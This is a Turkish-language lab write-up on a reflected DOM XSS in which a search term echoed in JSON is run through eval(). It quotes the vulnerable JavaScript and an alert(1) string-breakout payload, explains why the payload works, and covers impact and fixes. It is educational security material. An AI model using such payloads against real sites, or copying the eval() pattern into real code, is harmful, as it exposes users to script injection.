






# Reflected DOM XSS

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda arama parametresi önce sunucuya gönderiliyor, sunucu da bu değeri JSON response içinde geri döndürüyordu. Sayfadaki `searchResults.js` dosyası bu JSON response'u güvenli şekilde parse etmek yerine `eval()` ile JavaScript kodu olarak çalıştırıyordu. Bu yüzden response içinde yansıyan değeri JavaScript string'inden çıkaracak şekilde hazırladım ve `alert(1)` çalıştırarak reflected DOM XSS açığını doğruladım.

## 3. Exploitation Steps

1. Blog sayfasındaki arama alanına normal bir değer girip arama isteğini oluşturdum.



2. Ana sayfa response'unu incelediğimde uygulamanın `/resources/js/searchResults.js` dosyasını yüklediğini ve `search('search-results')` fonksiyonunu çağırdığını gördüm.

```html
<script src="/resources/js/searchResults.js"></script>
<script>
  search('search-results');
</script>
```



3. JavaScript dosyasını incelediğimde `window.location.search` değerinin `/search-results` endpoint'ine eklendiğini ve dönen response'un `eval()` ile çalıştırıldığını gördüm.

```javascript
xhr.open("GET", path + window.location.search);
xhr.send();

eval('var searchResultsObj = ' + this.responseText);
displaySearchResults(searchResultsObj);
```



4. Normal arama yaptığımda `/search-results?search=test123` endpoint'i JSON response içinde `searchTerm` değerini geri döndürdü.

```json
{
  "results": [],
  "searchTerm": "test123"
}
```



5. Değer JSON içinde yansıdığı ve ardından `eval()` ile çalıştırıldığı için JavaScript string'inden çıkacak şu payload'ı kullandım:

```javascript
\"-alert(1)}//
```

Bu payload response içinde şu yapıya dönüştü:

```json
{
  "results": [],
  "searchTerm": "\\\"-alert(1)}//"
}
```

`eval()` çalıştığında tarayıcının yorumladığı kod mantıksal olarak şu hale geldi:

```javascript
var searchResultsObj = {
  "results": [],
  "searchTerm": "\\" - alert(1)
} //"
```

Burada `\"` string kırılmasını sağladı, `-alert(1)` JavaScript ifadesi olarak çalıştı, `}` obje literal'ını kapattı ve `//` kalan kısmı yorum satırı haline getirdi.



6. Payload çalışınca `alert(1)` tetiklendi ve lab solved durumuna geçti.



## 4. Impact

Saldırgan, kurbana özel hazırlanmış bir URL göndererek kullanıcının tarayıcısında JavaScript çalıştırabilir. Açık sunucu response'unda yansıyan verinin client-side kod tarafından `eval()` ile çalıştırılmasından kaynaklandığı için klasik reflected XSS ile DOM XSS birleşimi gibi davranır. Başarılı bir saldırı sayfa içeriğini değiştirme, kullanıcı adına işlem yaptırma veya hassas bilgileri hedef alma gibi sonuçlara yol açabilir.

## 5. Remediation

JSON response'lar `eval()` ile çalıştırılmamalıdır. Bunun yerine `JSON.parse()` gibi güvenli parser'lar kullanılmalı ve sunucudan dönen kullanıcı kontrollü değerler bağlama uygun şekilde encode edilmelidir. Client-side kodda kullanıcı girdisi JavaScript kodu olarak yorumlanmamalı, DOM'a yazılacak değerler için güvenli DOM API'leri tercih edilmelidir. Ek olarak Content Security Policy ile inline veya beklenmeyen JavaScript çalıştırılması sınırlandırılabilir.
